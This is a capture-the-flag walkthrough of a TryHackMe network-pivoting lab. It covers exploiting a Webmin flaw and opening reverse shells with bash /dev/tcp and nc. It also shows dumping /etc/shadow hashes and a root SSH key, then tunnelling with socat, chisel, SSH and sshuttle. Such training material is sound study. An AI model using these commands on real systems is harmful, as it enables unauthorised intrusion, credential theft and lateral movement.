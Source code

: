 # Wreath

Learn how to pivot through a network by compromising a public facing web machine and tunnelling your traffic to access other machines in Wreath's network. (Streak limitation only for non-subscribed users)

https://tryhackme.com/room/wreath

## 1. Background

<details>
  <summary>---</summary>

> *There are two machines on my home network that host projects and stuff I'm working on in my own time -- one of them has a webserver that's port forwarded, so that's your way in if you can find a vulnerability! It's serving a website that's pushed to my git server from my own PC for version control, then cloned to the public facing server. See if you can get into these! My own PC is also on that network, but I doubt you'll be able to get into that as it has protections turned on, doesn't run anything vulnerable, and can't be accessed by the public-facing section of the network. Well, I say PC -- it's technically a repurposed server because I had a spare license lying around, but same difference.*

- 3 machines on the network
- At least one public facing webserver
- Self hosted git server on the network
- git server is internal. There may be sensitive information to find
- PC on the network with AV installed - likely Windows
- Windows PC cannot be directly access from the webserver 

</details>

## 2. Webserver enumeration

<details>
  <summary>---</summary>

![Network map](./wreath-network.png)

### Initial scan

Start with nmap

We find there are 4 ports open

```
nmap -p-15000 10.200.81.200 -oN initial.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-05 02:14 EDT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.26s latency).
Not shown: 14995 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
443/tcp   open   https
9090/tcp  closed zeus-admin
10000/tcp open   snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 118.64 seconds
```

### Server OS

Find out what OS is running on the webserver - `centos`

```
nmap -p 80 -sV 10.200.81.200 -oN port80.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-04 02:00 EDT
Nmap scan report for 10.200.81.200
Host is up (0.27s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
                                                                       
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                
Nmap done: 1 IP address (1 host up) scanned in 9.79 seconds
```

### Check out the web page

Opening `10.200.81.200` on a web browser redirects to `https://thomaswreath.thm/`

![Failed to resolve](./failed-resolve.png)

Fix this by editing `/etc/hosts` for Linux/Mac or `C:\Windows\System32\drivers\etc\hosts` on Windows.

`/etc/hosts` file
```
cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.200.81.200   thomaswreath.thm

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

With DNS resolving properly, we can now access the webserver and see if we can find any interesting information

We can see interesting info such as 
- Home address
- Home and mobile numbers `+447821548812 `
- Email address


### Check out port 10000 service

nmap scan reveals server version `MiniServ 1.890 (Webmin httpd)`
```
nmap -p 10000 -sV 10.200.81.200 -oN port10000.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-04 04:48 EDT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.26s latency).

PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.69 seconds
```

Vuln scan
```
nmap -p 10000 --script vuln 10.200.81.200 -oN port10000vuln.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-04 04:51 EDT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.26s latency).

PORT      STATE SERVICE
10000/tcp open  snet-sensor-mgmt
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-vuln-cve2006-3392: 
|   VULNERABLE:
|   Webmin File Disclosure
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2006-3392
|       Webmin before 1.290 and Usermin before 1.220 calls the simplify_path function before decoding HTML.
|       This allows arbitrary files to be read, without requiring authentication, using "..%01" sequences
|       to bypass the removal of "../" directory traversal sequences.
|       
|     Disclosure date: 2006-06-29
|     References:
|       http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3392
|_      http://www.exploit-db.com/exploits/1997/
|_sslv2-drown: 

Nmap done: 1 IP address (1 host up) scanned in 24.00 seconds
```

Quick Google search reveals this server version is vulnerable to `CVE-2019–15107`

</details>

## 3. Webserver Exploitation

<details>
  <summary>---</summary>

Exploit can be downloaded and run from `https://github.com/MuirlandOracle/CVE-2019-15107`

pip is required to install dependencies `cd CVE-2019-15107 && pip3 install -r requirements.txt`

```
./CVE-2019-15107.py 10.200.81.200

        __        __   _               _         ____   ____ _____     
        \ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|    
         \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|      
          \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___     
           \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\____|_____|     
                                                                       
                                                @MuirlandOracle        
                                                                       
                                                                       
[*] Server is running in SSL mode. Switching to HTTPS
[+] Connected to https://10.200.81.200:10000/ successfully.
[+] Server version (1.890) should be vulnerable!
[+] Benign Payload executed!

[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.                     
[*] Type 'exit' to exit.
[*] Type 'shell' to obtain a full reverse shell (UNIX only).

# id                                                                   
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0

```

This is just a pseudo shell. Create a reverse shell by:

1. New terminal start a nc listener

```
nc -lvnp 1337
```

2. On the pseudo shell run a reverse bash command
   
```
/bin/bash -i >& /dev/tcp/10.50.82.56/1337 0>&1 
```

If `nc` is available you can run this

```
nc -e /bin/sh 10.50.82.56 1337 
```

3. Back on the listener terminal, we have reverse shell

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.50.82.56] from (UNKNOWN) [10.200.81.200] 45242          
bash: cannot set terminal process group (1781): Inappropriate ioctl for device
bash: no job control in this shell                                     
[root@prod-serv ]# id                                                  
id                                                                     
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
```

### Stabilise the shell

1. Spawn PTY with python

```
[root@prod-serv ]# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
[root@prod-serv ]# 
```

2. Background the shell with `CTRL Z`. Then examine current terminal and STTY info

```
[root@prod-serv ]# ^Z
[1]+  Stopped                 nc -lvnp 1337
kali@kali:~$ echo $TERM
xterm-256color

kali@kali:~$ stty -a
speed 38400 baud; rows 54; columns 185; line = 0;
intr = ^C; quit = ^\; erase = ^H; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V;
discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl -ixon -ixoff -iuclc -ixany -imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc

```
> This reveals term type: `xterm-256color` and the size of current TTY: `rows 54; columns 185`

while the shell is in the background, run `stty raw -echo` then `fg` and `export TERM=xterm`

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.50.82.56] from (UNKNOWN) [10.200.81.200] 45248
bash: cannot set terminal process group (1781): Inappropriate ioctl for device
bash: no job control in this shell
[root@prod-serv ]# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
[root@prod-serv ]# ^Z
[1]+  Stopped                 nc -lvnp 1337
kali@kali:~$ stty raw -echo
kali@kali:~$ nc -lvnp 1337
                          export TERM=xterm
[root@prod-serv ]# 
```

> Note `nc -lvnp 1337` was not typed. It was `fg` but not echoed back

The shell is now stabilised

Summary:
1. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. `CTRL Z`
3. `stty raw -echo`
4. `fg`
5. `export TERM=xterm`

### Dump password hash

```
cat /etc/shadow
root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:99999:7:::
bin:*:18358:0:99999:7:::
daemon:*:18358:0:99999:7:::
adm:*:18358:0:99999:7:::
lp:*:18358:0:99999:7:::
sync:*:18358:0:99999:7:::
shutdown:*:18358:0:99999:7:::
halt:*:18358:0:99999:7:::
mail:*:18358:0:99999:7:::
operator:*:18358:0:99999:7:::
games:*:18358:0:99999:7:::
ftp:*:18358:0:99999:7:::
nobody:*:18358:0:99999:7:::
dbus:!!:18573::::::
systemd-coredump:!!:18573::::::
systemd-resolve:!!:18573::::::
tss:!!:18573::::::
polkitd:!!:18573::::::
libstoragemgmt:!!:18573::::::
cockpit-ws:!!:18573::::::
cockpit-wsinstance:!!:18573::::::
sssd:!!:18573::::::
sshd:!!:18573::::::
chrony:!!:18573::::::
rngd:!!:18573::::::
twreath:$6$0my5n311RD7EiK3J$zVFV3WAPCm/dBxzz0a7uDwbQenLohKiunjlDonkqx1huhjmFYZe0RmCPsHmW3OnWYwf8RWPdXAdbtYpkJCReg.::0:99999:7:::
unbound:!!:18573::::::
apache:!!:18573::::::                                                                                                                                                                    
nginx:!!:18573::::::                                                                                                                                                                     
mysql:!!:18573:::::: 
```

### Find interesting access keys

SSH keys are commonly stored in the home directory under `~/.ssh`

```
ls -la ~/.ssh
total 16
drwx------. 2 root root   80 Jan  6 03:29 .
dr-xr-x---. 3 root root  228 Apr  4 10:20 ..
-rw-r--r--. 1 root root  571 Nov  7 14:05 authorized_keys
-rw-------. 1 root root 2602 Nov  7 14:02 id_rsa
-rw-r--r--. 1 root root  571 Nov  7 14:02 id_rsa.pub
-rw-r--r--. 1 root root  345 Apr  3 07:54 known_hosts
```

Since we are root, we have read access to the private key `id_rsa`. Save the key locally

```
cat .ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs0oHYlnFUHTlbuhePTNoITku4OBH8OxzRN8O3tMrpHqNH3LHaQRE
LgAe9qk9dvQA7pJb9V6vfLc+Vm6XLC1JY9Ljou89Cd4AcTJ9OruYZXTDnX0hW1vO5Do1bS
...
YlXRN11U6IKYQMTQgXDcZxTx+KFp8WlHV9NE2g3tHwagVTgIzmNA7EPdENzuxsXFwFH9TY
EsDTnTZceDBI6uBFoTQ1nIMnoyAxOSUC+Rb1TBBSwns/r4AJuA/d+cSp5U0jbfoR0R/8by
GbJ7oAQ232an8AAAARcm9vdEB0bS1wcm9kLXNlcnYBAg==
-----END OPENSSH PRIVATE KEY-----
```

Copy it to local machine and change file permission to suit SSH standards

```
kali@kali:~/thm/wreath/.ssh$ chmod 600 id_rsa 
kali@kali:~/thm/wreath/.ssh$ ls -la
total 12
drwxr-xr-x 2 kali kali 4096 Apr  4 05:30 .
drwxr-xr-x 4 kali kali 4096 Apr  4 05:30 ..
-rw------- 1 kali kali 2602 Apr  4 05:30 id_rsa
```

> Note: if you dont change the permission of the key, you wont be able to use it

```
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa": bad permissions
root@10.200.81.200: Permission denied (publickey,gssapi-keyex,gssapi-with-mic).
```

Now we can just use this key to ssh straight into the webserver

```
ssh -i id_rsa root@10.200.81.200
[root@prod-serv ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

</details>

## 4. Pivoting

<details>
  <summary>---</summary>

### Definition

Pivoting is using access obtained over one machine to exploit another machine deeper in the network.

The technique involves gaining initial access to a remote network, and use it to access other machines

![pivoting](pivoting.png)

Above there are four machines on the target network
- 1 public facing server
- 3 machines not exposed to the internet

By accessing the public server, it is then possible to pivot to attack the other 3 targets.

### Methods

Methods varies depending on OS

Two main methods:

1. Tunnelling/Proxying

Creating proxy connection through compromised machine. 
This could be tunnelled inside another protocol (eg. SSH tunnelling) which is useful in evading basic intrusion detection system or firewall

Proxying is preferred when there is need to redirect lots of different kinds of traffic to target network eg. nmap scan or access multiple ports on multiple different machines

2. Port forwarding

Creating a connection between local port and single port on a target via compromised host

Port forwarding tends to be faster and more reliable but only allow access to a single port (or small range) on a target device

Example pivoting tools

- Enumerating a network using native and statically compiled tools
- Proxychains / FoxyProxy
- SSH port forwarding and tunnelling (primarily Unix)
- plink.exe (Windows)
- socat (Windows and Unix)
- chisel (Windows and Unix)
- sshuttle (currently Unix only)

</details>

## 5. Pivoting Enumeration

<details>
  <summary>---</summary>

### Enumerate compromised host

In order of preferences

1. Using materials found on the machine eg. ARP cache, hosts file, DNS server
2. Using pre-installed tools
3. Using statically compiled tools
4. Using scripting techniques
5. Using local tools through proxy

Local tools can be slow and should be last resort

### Checking arp cache

ARP cache can be found on Windows or Linux. This will show any IP addresses of hosts that target has interacted with recently

```
arp -a
```

### Check static mapping

Found in `/etc/hosts` or `C:\Windows\System32\drivers\etc\hosts` 

Linux local DNS found in `/etc/resolv.conf` or `nmcli dev show` - can be misconfigured to allow DNS zone transfer attack
Windows DNS server can be checked with `ipconfig /all`

### Check if nmap installed

If no nmap write a script 

ICMP ping scan 
```
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done
```

Port scanning - takes a long time however
```
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

### Example static binaries

These binaries can be uploaded to the compromised machine to run. See Pivoting - Socat for more instructions

[socat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)
[other binaries](https://github.com/andrew-d/static-binaries)

</details>

## 6. Proxychains and FoxyProxy

<details>
  <summary>---</summary>

### Proxychains

Prepend other commands. Proxychains uses config file in `./proxychains.conf`, `~/.proxychains/proxychains.conf`, or `/etc/proxychains.conf` 

```
proxychains nc 172.16.0.10 23
```

Multiple servers can be used to chain all proxies together
in `proxychains.conf`
```
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

Comment out `proxy_dns` line when doing nmap scans through proxy chains as this can cause the scan to hang

```
# Proxy DNS requests -no leak for DNS data
# proxy_dns
```

Other things to note
- Only TCP scans - no UDP or SYN scans
- ICMP echo packets (ping) will not work, use -Pn to prevent nmap
- It will be slow. Try only use nmap through a proxy when using the NSE (use static binary to see open ports/hosts before proxying a local copy of nmap to use the scripts library)

### FoxyProxy

Better with web browser. Popular with Burp and ZAP

</details>

## 7. Pivoting SSH Tunnelling / Port Forwarding

<details>
  <summary>---</summary>

### Forward connections

Creating a forward (local) SSH tunnel done on attacking box when we have SSH access to the target. Two ways: `port forwarding` or `creating a proxy`

1. Port Forwarding

`-L` : enables port forwarding. Link to local port
`-f` : backgrounds terminal immediately
`-N` : tells SSH theres no commands to be executed only set connection

Eg.
- We have access to SSH 172.16.0.5
- Web server on 172.16.0.10
- `ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`
- This means we can access webserver `172.16.0.10` by visiting `localhost:8000` on a web browser through SSH tunnel from `172.16.0.5`

2. Creating a proxy

`-D [port]` : open up a port on attacking box as a proxy to send data to protected network. Useful when combined with proxychains

eg.
`ssh -D 1337 user@172.16.0.5 -fN`

### Reverse connections

Preferable if you have shell on server but not SSH access.
This is however riskier as you must access your attacking machine from the target by credentials or better yet key based system

1. Generate ssh keys `ssh-keygen`

```
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): ./reverse
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./reverse
Your public key has been saved in ./reverse.pub
The key fingerprint is:
SHA256:DmgoQJUIMyG6qW2F8zRMWQgFR/BfW37m2+MWYGttQNk kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|Bo*B=..      o   |
|++ +.o      o E  |
|o   +   . ..     |
|.o = o . +  +    |
|+ + B o S ..o=   |
|.o * . o   +o +  |
|. o .   .  ... . |
| .           oo  |
|            .oo. |
+----[SHA256]-----+
```

2. Copy public key (`.pub` file) then edit `~/.ssh/authorized_keys`
3. New line: `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty` then paste the public key. This is to ensure the key only used for port forwarding. Stopping ability to gain a shell on attacking machine
4. Check if SSH server running `sudo systemctl status ssh
```
sudo systemctl status ssh
[sudo] password for kali: 
● ssh.service - OpenBSD Secure Shell server
     Loaded: loaded (/lib/systemd/system/ssh.service; disabled; vendor preset: disabled)
     Active: inactive (dead)
       Docs: man:sshd(8)
             man:sshd_config(5)
```

SSH service can be started with
```
sudo systemctl start ssh
```

5. Lastly transfer the private key to the target box. This is usually an absolute no-no. This is why we generate a throwaway set of SSH keys to be discarded as soon as the engagement is over
6. We can finally connect back with a reverse prot forwarding using

```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

For the web server 172.16.0.10 and 172.16.0.5 shell'd server. With attacking box 172.16.0.20

```
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
```

On newer client the reverse proxy creation can be done with `-D`

```
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

To kill any connections use `ps aux | grep ssh` then `sudo kill PID`

</details>

## 8. Pivoting - plink.exe

<details>
  <summary>---</summary>

Plink.exe is a windows command line version of PuTTY SSH client. This was created before Windows had its own inbuilt SSH client.

Windows servers are unlikely to have an SSH server running so the use of plink is to transport binary to the target, then using it to create a reverse connection

```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

`cmd.exe /c echo y` : non-interactive shells to get around warning message for never previously connected host

If we have access to 172.16.0.5 and forwarding connection to 172.16.0.10:80 back to port 8000 on the attacking machine 172.16.0.20

```
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
```

Keys generated by `ssh-keygen` wont work here however. It will need to be converted by `puttygen` tool, installed by `sudo apt install putty-tools` then run `puttygen KEYFILE -o OUTPUT_KEY.ppk`. 

The .ppk file then can be transferred to Windows and used the same way as reverse port forwarding

plink is preinstalled on Kali at `/usr/share/windows-resources/binaries/plink.exe` but should be updated before engagement from https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

</details>

## 9. Pivoting - Socat

<details>
  <summary>---</summary>

Socat:
- Great for fully stable Linux shells
- Port forwarding.
- However, rarely installed on target
- Unlikely to bypass AV in Windows
- Makes a good relay

For example: trying to get shell on a target without direct connection. Use socat to set up a relay on the compromised machine. This listens for the reverse shell from target and forwards to attacking box

![socat as a relay](socat.png)

Above we create a port forward from a port on the compromised server to a listening port on our attacker box. The other way is also possible: either forwarding a connection from attacking machine to a target inside network; or creat a direct link between listening port on attacking machine with service on the internal server. The latter is useful as it does not require opening a port to compromised server.

To download binary for socat:

1. Set up python web server on attacking machine (in the directory with socat binary)

```
sudo python3 -m http.server 80
```

2. Download on target machine with curl

```
curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME
```

Example

Attacking machine
```
kali@kali:~/thm/wreath$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.200.81.200 - - [05/Apr/2021 02:40:22] "GET /socat-Neozer0 HTTP/1.1" 200 -
10.200.81.200 - - [05/Apr/2021 02:41:13] "GET /nc-Neozer0 HTTP/1.1" 200 -

```

Compromised webserver
```
root@prod-serv tmp]# curl 10.50.82.56/socat -o /tmp/socat-Neozer0 && chmod +x /tmp/socat-Neozer0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  369k  100  369k    0     0   224k      0  0:00:01  0:00:01 --:--:--  224k

[root@prod-serv tmp]# ls -la socat-N*
-rwxr-xr-x. 1 root root 378384 Apr  5 05:08 socat-Neozer0
```

### Reverse shell relay

Start a listener in attacking machine
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 443
listening on [any] 443 ...

```

run socat on compromised webserver
```
[root@prod-serv tmp]# ./socat-Neozer0 tcp-l:8000 tcp:10.50.82.56:443 &
[1] 2136
```

`tcp-l:8000` : create first half of the connection - an IPv4 listener on tcp port 8000 of target machine
`tcp:ATTACKING_IP_443` : connects back to our local IP on port 443
`&` : backgrounds the listener while we can still use the shell for other commands

Create reverse shell on newly opened port 8000

```
chmod +x ./nc-Neozer0

./nc-Neozer0 127.0.0.1 8000 -e /bin/bash

```

Back on attacking machine we have a reverse shell

```
sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.50.82.56] from (UNKNOWN) [10.200.81.200] 41630
whoami
root
id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:9b:ca:22:d5:ab brd ff:ff:ff:ff:ff:ff
    inet 10.200.81.200/24 brd 10.200.81.255 scope global dynamic noprefixroute eth0
       valid_lft 2072sec preferred_lft 2072sec
    inet6 fe80::9b:caff:fe22:d5ab/64 scope link 
       valid_lft forever preferred_lft forever
```

### Port forwarding -- easy

The quick and easy way is to open up a listening port on compromised server and redirect whatever traffic it receives to target server

For example, compromise server 172.16.0.5 and target port 3306 of 172.16.0.10 then we could run `./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`. This opens port 33060 on compromised server and redirects input from attacking machine straight to target server 172.16.0.10 port 3306 (MySQL database)

`fork` : put every connection into new process
`reuseaddr` : port stays open after connection is made
`&` : backgrounds the shell, keep using same terminal session

Above options combined allow us to use the same port forward for more than one connection.

We can now connect to port 33060 on the relay 172.16.0.5 and connection directly relayed to our target 172.16.0.10:3306

![port forwarding easy diagram](port-forward-easy.jpg)

### Port forwarding -- quiet

If we want to avoid opening a port and potentially alert any host/network scanning, we can use a quieter method of port forwarding with socat. This is slightly more complex.

1. Open up two port listeners on the attacking machine

Attacking machine
```
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

This opens up two ports 8000 and 8001, creating port relay

2. Start a relay on compromised server

Compromised relay server
```
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

This makes connection between our listening 8001 on attacking machine and open port on target server

For example, 

```
./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```

This creates a link between port 8000 on attacking machine and port 80 on intended target 172.16.0.10. If we go to localhost:8000 on our attacking machine's web browser, it would load the webpage served by target 172.16.0.10:80.

Summary visiting webpage on attacking server:
- Request goes to 127.0.0.1:8000
- Socat listener, anything goes into port 8000, comes out of port 8001
- Port 8001 is connected directly to socat porcess on the compromised server. Anything coming out of port 8001 gets sent to compromised server and relayed to port 80 on target server

Summary target sends response:
- Response sent to socat process on compromised server. What goes in process comes out to port 8001 on our attacking machine
- Anything goes in port 8001 on attacking machine comes out of port 8000 which is where web browser expects to receive its response

![port forwarding quiet diagram](port-forward-quiet.jpg)

### Killing backgrounded socat port forwards

`jobs` : run command to see socat processes
`kill %NUMBER` : kill socat process

```
kali@kali:~$ socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
[1] 6453
kali@kali:~$ jobs
[1]+  Running                 socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
kali@kali:~$ kill %1
kali@kali:~$ jobs
[1]+  Exit 143                socat tcp-l:8001 tcp-l:8000,fork,reuseaddr
```

</details>

## 10. Pivoting - Chisel

<details>
  <summary>---</summary>

Tool to set up tunnelled proxy / port forward through a compromised system. Dont need SSH access on compromised server.

Download chisel binary from github and transfer to comrpomise webserver

Use scp

`scp -i [KEY] [FILE] user@address:/[PATH to save file]`

```
scp -i ssh/webserver_id_rsa chisel/chisel_1.7.6_linux_amd64  root@10.200.81.200:/tmp/chisel-Neozer0
chisel_1.7.6_linux_amd64                                100% 8144KB 677.9KB/s   00:12  
```

Chisel has two main uses: SOCKS proxy and port forwarding
```
./chisel-Neozer0 --help | head -19

  Usage: chisel [command] [--help]

  Version: 1.7.6 (go1.16rc1)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```

### Reverse SOCKS proxy

This connects back from compromised server to a listener on attacking machine

Attacking machine

```
./chisel server -p LISTEN_PORT --reverse &
```

Compromised host
```
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

`R:socks` - remotes

Example

Attacking machine
```
kali@kali:~/thm/wreath$ chisel/chisel_1.7.6_linux_amd64 server -p 1337 --reverse &
[1] 8176
kali@kali:~/thm/wreath$ 2021/04/07 05:35:30 server: Reverse tunnelling enabled
2021/04/07 05:35:30 server: Fingerprint N8c7Wp59pZ7WNPRo4aVUU4MlhLOeauxzPIrIpMpfpZQ=
2021/04/07 05:35:30 server: Listening on http://0.0.0.0:1337
2021/04/07 05:37:12 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

Notice proxy opened on 127.0.0.1:1080 - this is where we will send data through the proxy


Compromised host
```
[root@prod-serv tmp]# ./chisel-Neozer0 client 10.50.82.56:1337 R:socks &
[2] 2076
[root@prod-serv tmp]# 2021/04/07 10:37:11 client: Connecting to ws://10.50.82.56:1337
2021/04/07 10:37:13 client: Connected (Latency 262.021143ms)
```

### Forward SOCKS proxy

Less common than reverse proxies.
Like bind shells are less common than reverse shells.

Egress firewalls are less stringent than ingress firewalls

Compromised host
```
./chisel server -p LISTEN_PORT --socks5
```

Attacking box
```
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```

`PROXY_PORT` - port opened for proxy

Example
```
./chisel client 172.16.0.10:8080 1337:socks
```

Connect to a chisel server running on port 8080 of 172.16.0.10.
SOCKS proxy would open on port 1337 of attacking machine

> Note: Proxychains config needs to be updated to SOCKS5 proxy to work with Chisel

```
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5  127.0.0.1 1080
```

### Remote port forward

Connect back from compromised target to create the forward

Attacking box
```
./chisel server -p LISTEN_PORT --reverse &
```

Compromised server
```
./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
```

`LISTEN_PORT` - port chisel server start on

`LOCAL_PORT` - port open on our attacking machine linked to target port

Example

Attacking box: 172.16.0.20
Compromised server: 172.16.0.5
Target: 172.16.0.10:22

To forward 172.16.0.10:22 back to port 2222 on attacking machine
```
./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &
```

Attacking box
```
./chisel server -p 1337 --reverse &
```

This would allow access to 172.16.10:22 via SSH by navigating to 127.0.0.1:2222

### Local port forward

Connect from attacking machine to chisel server listening on a compromised target

Compromised target
```
./chisel server -p LISTEN_PORT
```

Attacking box
```
./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
```

Example

Connect to 172.16.0.5:8000 (compromised host running chisel), forwarding our local port 2222 to 172.16.0.10:22 (intended target)
```
./chisel client 172.16.0.5:8000 2222:172.16.0.10:22
```

> ./chisel client 172.16.0.100:3306 R:socks:172.16.0.200:1337 &

</details>

## 11. Pivoting - sshuttle

<details>
  <summary>---</summary>

- Uses SSH connection to create tunnelled proxy that acts like a new interface.
- Simulates a VPN
- Route traffice through proxy without using proxychains
- Encrypted connection
- Sits in the background and forward relevant traffic to target network

However
- Only works on Linux targets
- Requires access to compromised server via SSH
- Requires Python

1. Install sshuttle

`sshuttle -r username@address subnet`

2. Run sshuttle

eg: `sshuttle -r user@172.16.0.5 172.16.0.0/24`

We can avoid specifying subnet with `-N`. Not always successful.

`sshuttle -r username@address -N`

We also need to append `&`

Then enter username and password

Successful response:

`c: Connected to server.`

3. Run sshuttle with key based auth

Use `--ssh-cmd` switch followed by `ssh -i keyfile`

`sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET`

